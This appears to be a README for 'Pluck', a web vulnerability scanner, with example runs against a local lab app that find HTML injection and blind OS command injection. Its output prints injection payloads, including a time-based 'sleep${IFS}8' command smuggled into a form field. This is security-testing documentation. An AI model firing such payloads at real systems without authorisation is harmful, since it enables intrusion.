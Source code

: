 # Pluck



### HTML Injection GET Request

**Obtain a request and save to a file**

```http
GET /htmli_get.php?firstname=test&lastname=test&form=submit HTTP/1.1
Host: 127.0.0.1:8888
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:8888/htmli_get.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: security_level=0; PHPSESSID=ek9npeot2sop3ubofjaeul06l2
Connection: close

```

**Execute the script**

Set the module to `html_injection` and the parameters to `firstname` and `lastname`. The application found the correct payload and print out the unique ID.


```bash
python3 pluck.py -r /tmp/req -m "html_injection" -I "query" -P "firstname,lastname"
### Testing Parameters ###
URL:  http://127.0.0.1:8888/htmli_get.php?firstname=test&lastname=test&form=submit
PATH:  /htmli_get.php?firstname=test&lastname=test&form=submit
METHOD:  GET
Proxy: 127.0.0.1:8080
Parameters To Test:  ['firstname', 'lastname']
Modules to run:  ['html_injection']
Injection POints:  ['query']
[*] Executing the HTML Injection Tester module
Library Items:  1
[!] HTML Injection found in query firstname parameter with <div><img src='http://127.0.01/?r=q4OUnZcwKrcgAaBD&d= payload! Request ID: cde8bf77-b4d2-4509-8891-67b45770a8ab
```

**Found the request in burp**

Copy the request id and filter the HTTP history in burp to obtain the proper payload.

![image](https://github.com/user-attachments/assets/c9207c22-9b69-4864-b069-78f105dc533c)

The request contained the payload and therespose the injected HTML payload

![image](https://github.com/user-attachments/assets/56ad6cad-9822-46ee-909c-b20a4450167d)


### Blind Command Injection

Http request obtained from Burp:

```http
POST /commandi_blind.php HTTP/1.1
Host: 127.0.0.1:8888
Content-Length: 28
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:8888
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:8888/commandi_blind.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: security_level=0; PHPSESSID=ek9npeot2sop3ubofjaeul06l2
Connection: close

target=127.0.0.1&form=submit
```

Execute the script:

```bash
python3 pluck.py -r /tmp/req -m "command_inject" -I "body" -P "target"
### Testing Parameters ###
URL:  http://127.0.0.1:8888/commandi_blind.php
PATH:  /commandi_blind.php
METHOD:  POST
Proxy: 127.0.0.1:8080
Parameters To Test:  ['target']
Modules to run:  ['command_inject']
Injection POints:  ['body']
[*] Executing the OS Command Injector module
Reason:  Elapsed Time 18.036525
Generator Sleep:  15
Library Items:  1
[!] OS Command Injection found in body target parameter with 
sleep${IFS}8${IFS}&&${IFS}sleep${IFS}8# payload! Request ID: fb1bf360-9b3a-4d4b-b869-8bed588782ae
```

![image](https://github.com/user-attachments/assets/d6c52c66-14fd-4ea8-869a-9c9d8dc5d04d)


